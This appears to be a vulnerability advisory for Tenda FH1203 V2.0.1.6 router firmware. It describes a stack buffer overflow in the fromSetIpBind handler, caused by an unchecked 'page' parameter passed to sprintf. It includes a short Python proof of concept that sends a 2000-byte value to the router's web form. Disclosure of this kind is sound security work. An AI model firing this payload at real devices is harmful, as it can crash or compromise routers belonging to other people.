 

# fromSetIpBind

## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

There is a stack buffer overflow vulnerability in  FH1203 V2.0.1.6, located in the **fromSetIpBind** function. The function receives the `page` parameter from a POST request. ` sprintf(v8, "arp_bind.asp?page=%s", v2); ` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v8` array, thereby triggering this security vulnerability.


![image](https://github.com/user-attachments/assets/c5882cbd-1911-4357-9c7c-733c660609e3)

## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fromSetIpBind"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/95ed87bd-a5ab-414d-95e9-fcc9e6b0176a)
